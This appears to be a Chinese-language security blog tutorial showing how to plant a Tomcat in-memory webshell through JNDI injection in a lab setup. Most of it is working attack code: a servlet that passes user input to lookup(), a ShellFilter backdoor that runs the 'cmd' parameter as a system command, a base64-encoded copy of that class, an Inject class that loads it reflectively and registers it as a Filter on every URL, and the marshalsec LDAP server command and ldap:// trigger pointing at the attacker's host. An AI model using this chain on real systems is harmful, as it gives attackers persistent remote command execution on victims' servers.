


# JNDI注入内存马

JNDI允许通过命名服务动态加载远程对象，当lookup()方法的URL参数可控时，攻击者可构造恶意JNDI服务地址（RMI/LDAP），诱导客户端访问攻击者控制的目录服务。


再回顾一下JNDI的注入流程：

## 攻击端（Ldap为例）

1. 编写恶意类
2. 编译恶意类并托管在HTTP服务器
3. 启动LDAP服务并将引用指向上一步Http服务器中的恶意类：

## 受害者端触发

1. 客户端执行可控代码：context.lookup("ldap://attacker-ip:1389/Exploit")
2. JNDI客户端请求LDAP服务
3. LDAP返回恶意Reference对象
4. 客户端解析Reference时：

    1. 从codebase指定URL动态加载
    2. 实例化恶意类触发构造函数/static代码块

## 结合内存马使用

不过这里下载的类中会被自动执行的地方只有三个代码块，分别是static{}，{}和无参构造方法。所以上面的注入代码就需要改造一下了。问题就来了，这三个地方可没有Request对象传入，我们要怎么拿到StandardContext呢？参考这篇文章：[https://xz.aliyun.com/news/9369](https://xz.aliyun.com/news/9369)

如果是Tomcat可以通过这段代码拿到（重点要说明一下，最后版本不兼容的坑也就出现在这里）

```java
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardRoot standardroot = (StandardRoot) webappClassLoaderBase.getResources();
            StandardContext standardContext = (StandardContext) standardroot.getContext();
```

如果依赖了Spring框架可以先用下面的方法取得Request

```java
(ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest()
```

# 注入内存马

准备了一个受害者环境，环境是Tomcat8（非Tomcat8.5及以上版本）和Java8u62（在 JDK 8u191 com.sun.jndi.ldap.object.trustURLCodebase属性的默认值被调整为false，这会导致无法下载远程类到本地，也就是无法利用。但是还是会有绕过方式。本文不做赘述。）。可以从https://archive.apache.org/dist/tomcat/tomcat-8/ 中下载。新建项目jndi-demo，配置如下：




代码很简单，就是在一个Servlet的doGet中调用lookup()请求传来的数据源，写好代码并启动Tomcat服务器

```java
package zero.overflow.jndidemo;

import javax.naming.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;

@WebServlet(name = "helloServlet", value = "/hello")
public class HelloServlet extends HttpServlet {
    public void doGet(HttpServletRequest request, HttpServletResponse response) {
        String name = request.getParameter("name");
        try {
            InitialContext context = new InitialContext();
            context.lookup(name);
        } catch (NamingException e) {
            throw new RuntimeException(e);
        }
    }
}
```


然后准备恶意代码。再新开一个项目，同样基于Java8。


在pom.xml中添加tomcat-catalina@8.0.53、javax.servlet-api及javassist依赖


写一个后门Servlet，执行cmd参数中的命令并返回执行结果

```java
import javax.servlet.*;
import java.io.*;
public class ShellFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) {}
    @Override
    public void destroy() {}
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain filterChain) throws IOException {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            BufferedReader bufferedReader = new BufferedReader(
                    new InputStreamReader(process.getInputStream()));
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                response.getWriter().println(line);
            }
        }
    }
}
```


使用javassist库将刚刚写的后面shell转为base64

代码如下

```java
import javassist.*;
import java.util.Base64;

public class DumpBase64 {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        // 从类路径获取CtClass对象
        CtClass ctClass = pool.get("ShellFilter");

        // 转换为字节数组
        byte[] classBytes = ctClass.toBytecode();

        // 使用BASE64Encoder进行Base64编码
        String code = Base64.getEncoder().encodeToString(classBytes);
        System.out.println(code);
    }
}
```


将base64文本复制到我们写的动态注册Filter的Inject类的code变量中（检查末尾不能带\\n换行）


Inject类的内容如下：

```java
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.catalina.webresources.StandardRoot;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import javax.servlet.Filter;
import java.lang.reflect.Method;
import java.util.Base64;

public class Inject {
    public StandardContext getContext() {
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardRoot standardroot = (StandardRoot) webappClassLoaderBase.getResources();
        StandardContext context = (StandardContext) standardroot.getContext();
        return context;
    }
    public Filter getFilter() throws Exception {
        String code = "yv66vgAAADQAXwoADwA0CAArCwA1ADYKADcAOAoANwA5BwA6BwA7CgA8AD0KAAcAPgoABgA/CgAGAEALAEEAQgoAQwBEBwBFBwBGBwBHAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAA1MU2hlbGxGaWx0ZXI7AQAEaW5pdAEAHyhMamF2YXgvc2VydmxldC9GaWx0ZXJDb25maWc7KVYBAAxmaWx0ZXJDb25maWcBABxMamF2YXgvc2VydmxldC9GaWx0ZXJDb25maWc7AQAHZGVzdHJveQEACGRvRmlsdGVyAQBbKExqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXF1ZXN0O0xqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXNwb25zZTtMamF2YXgvc2VydmxldC9GaWx0ZXJDaGFpbjspVgEAB3Byb2Nlc3MBABNMamF2YS9sYW5nL1Byb2Nlc3M7AQAOYnVmZmVyZWRSZWFkZXIBABhMamF2YS9pby9CdWZmZXJlZFJlYWRlcjsBAARsaW5lAQASTGphdmEvbGFuZy9TdHJpbmc7AQAHcmVxdWVzdAEAHkxqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXF1ZXN0OwEACHJlc3BvbnNlAQAfTGphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlOwEAC2ZpbHRlckNoYWluAQAbTGphdmF4L3NlcnZsZXQvRmlsdGVyQ2hhaW47AQADY21kAQANU3RhY2tNYXBUYWJsZQcASAcASQcAOgEACkV4Y2VwdGlvbnMHAEoBAApTb3VyY2VGaWxlAQAQU2hlbGxGaWx0ZXIuamF2YQwAEQASBwBLDABMAE0HAE4MAE8AUAwAUQBSAQAWamF2YS9pby9CdWZmZXJlZFJlYWRlcgEAGWphdmEvaW8vSW5wdXRTdHJlYW1SZWFkZXIHAEkMAFMAVAwAEQBVDAARAFYMAFcAWAcAWQwAWgBbBwBcDABdAF4BAAtTaGVsbEZpbHRlcgEAEGphdmEvbGFuZy9PYmplY3QBABRqYXZheC9zZXJ2bGV0L0ZpbHRlcgEAEGphdmEvbGFuZy9TdHJpbmcBABFqYXZhL2xhbmcvUHJvY2VzcwEAE2phdmEvaW8vSU9FeGNlcHRpb24BABxqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXF1ZXN0AQAMZ2V0UGFyYW1ldGVyAQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAOZ2V0SW5wdXRTdHJlYW0BABcoKUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgEAEyhMamF2YS9pby9SZWFkZXI7KVYBAAhyZWFkTGluZQEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAdamF2YXgvc2VydmxldC9TZXJ2bGV0UmVzcG9uc2UBAAlnZXRXcml0ZXIBABcoKUxqYXZhL2lvL1ByaW50V3JpdGVyOwEAE2phdmEvaW8vUHJpbnRXcml0ZXIBAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWACEADgAPAAEAEAAAAAQAAQARABIAAQATAAAALwABAAEAAAAFKrcAAbEAAAACABQAAAAGAAEAAAAEABUAAAAMAAEAAAAFABYAFwAAAAEAGAAZAAEAEwAAADUAAAACAAAAAbEAAAACABQAAAAGAAEAAAAGABUAAAAWAAIAAAABABYAFwAAAAAAAQAaABsAAQABABwAEgABABMAAAArAAAAAQAAAAGxAAAAAgAUAAAABgABAAAACAAVAAAADAABAAAAAQAWABcAAAABAB0AHgACABMAAADrAAUACAAAAEgrEgK5AAMCADoEGQTGADu4AAQZBLYABToFuwAGWbsAB1kZBbYACLcACbcACjoGGQa2AAtZOgfGABEsuQAMAQAZB7YADaf/6rEAAAADABQAAAAiAAgAAAALAAoADAAPAA0AGQAOACMADwAuABEAOQASAEcAFQAVAAAAUgAIABkALgAfACAABQAuABkAIQAiAAYANgARACMAJAAHAAAASAAWABcAAAAAAEgAJQAmAAEAAABIACcAKAACAAAASAApACoAAwAKAD4AKwAkAAQALAAAABEAAv4ALgcALQcALgcAL/kAGAAwAAAABAABADEAAQAyAAAAAgAz";
        byte[] bytes = Base64.getDecoder().decode(code);

        ClassLoader cl = Thread.currentThread().getContextClassLoader();
        Method method = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
        method.setAccessible(true);
        Class clazz = (Class) method.invoke(cl, bytes, 0, bytes.length);
        Filter filter = (Filter) clazz.newInstance();
        return filter;
    }
    public Inject() throws Exception {
        StandardContext context = getContext();
        Filter filter = getFilter();

        FilterDef filterDef = new FilterDef();
        filterDef.setFilterName("shell");
        filterDef.setFilter(filter);
        filterDef.setFilterClass(filter.getClass().getName());

        FilterMap filterMap = new FilterMap();
        filterMap.setFilterName("shell");
        filterMap.addURLPattern("/*");

        context.addFilterDef(filterDef);
        context.addFilterMapBefore(filterMap);
        context.filterStart();
        System.out.println("注入成功");
    }
}
```

你可能会疑惑，为什么要通过ClassLoader来创建这个类，而不是直接New出这个类来呢？因为在利用环境中，这个Inject类是通过jndi服务让受害者下载到本地的，受害者环境中并没有ShellFilter这个Filter呐，而jndi一次只能指向到一个class上。

你可能又想问为什么不写成内部类呢？因为就算是内部类，在编译后依然会生成两个独立的class文件。所以条件所限，只能写成动态生成类的方式。

接下来使用mvn compile编译刚刚写好的Inject类，并原地起一个http服务器。


接着再启动一个ldap或者rmi服务，我这里用marshalsec这个包。攻击方在局域网中的ip是192.168.100.1

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.100.1/#Inject" 1389
```

顺带一提说，也是用Java8启动的。



攻击方这个环境都准备好了，接下来去触发一下受害者就行。访问此url触发：

```java
ldap://192.168.100.1:1389/Inject
```


报错了，但是不要慌，区区没有实现getObjectInstance方法罢了，但肯定构造方法中的注入逻辑肯定是触发了的。执行个命令看一下：


# 参考链接

[https://xz.aliyun.com/news/9369](https://xz.aliyun.com/news/9369)

[https://github.com/Pikaqi/JNDIExploit-1.4](https://github.com/Pikaqi/JNDIExploit-1.4)

[https://xz.aliyun.com/news/9915](https://xz.aliyun.com/news/9915)
